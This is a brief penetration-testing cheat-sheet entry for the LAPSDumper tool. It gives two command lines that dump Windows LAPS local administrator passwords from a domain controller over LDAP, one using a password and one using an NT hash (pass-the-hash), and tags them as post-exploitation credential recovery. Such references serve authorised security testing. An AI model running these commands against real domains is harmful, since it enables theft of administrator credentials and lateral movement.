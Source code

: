# LAPSDumper (imp)

% LAPS, windows, ldap

## dump LAPS (creds)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
https://github.com/n00py/LAPSDumper
```bash
laps.py -u <user> -p <password> -d <domain_fqdn> -l <dc_ip>
```

## dump LAPS (pth)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
https://github.com/n00py/LAPSDumper
```bash
laps.py -u <user> -p :<nt_hash> -d <domain_fqdn> -l <dc_ip>
```